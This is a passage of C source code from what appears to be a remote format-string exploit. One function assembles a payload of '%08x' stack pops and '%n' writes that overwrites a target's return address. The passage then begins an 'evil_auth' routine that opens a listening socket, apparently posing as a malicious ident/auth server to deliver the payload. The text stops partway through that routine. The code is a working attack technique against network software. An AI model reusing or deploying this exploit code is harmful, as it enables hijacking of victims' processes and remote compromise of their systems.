     written += 32;

    /* Stackpop */
    for (espoff = tgt->offset; espoff > 0; espoff -= 4) {
        snprintf(buf, buflen, "%%08x");
        buflen -= strlen("%08x");
        buf += strlen("%08x");
        written += 8;
    }

    /* Return address */
    for (i=0; i<4; i++) {
        wb = ((u_char *)&ret)[i] + 0x100;
        written %= 0x100;
        pad = (wb - written) % 0x100;
        if (pad < 10)
                pad += 0x100;
        tmp = snprintf(buf, buflen,
            "%%%du%%n", pad);
        written += pad;
        buflen -= tmp;
        buf += tmp;
    }

    return(buflen >= 0 ? written : -1);
}


int
evil_auth(u_short port, char *ident, size_t identlen)
{
    struct sockaddr_in client;
    struct sockaddr_in laddr;
    u_int addrlen = sizeof(struct sockaddr_in);
    int lsock, csock;
    char input[128];

    if ( (lsock = socket(AF_INET, SOCK_STREAM, 0)) < 0) {
        perror("** socket()");
        return(-1);
    }

    memset(&laddr, 0x00, sizeof(struct sockaddr_in));
    laddr.sin_family = AF_INET;
    laddr.sin_port = port;
    laddr.sin_addr.s_addr = INADDR_ANY;

    if (bind(lsock, (struct sockaddr *)&laddr, sizeof(laddr)) < 0) {
        perror("** bind()");
        return(-1);
    }

    if (listen(lsock, 1) < 0) {
        perror("** listen()");
        return(-1);
    }
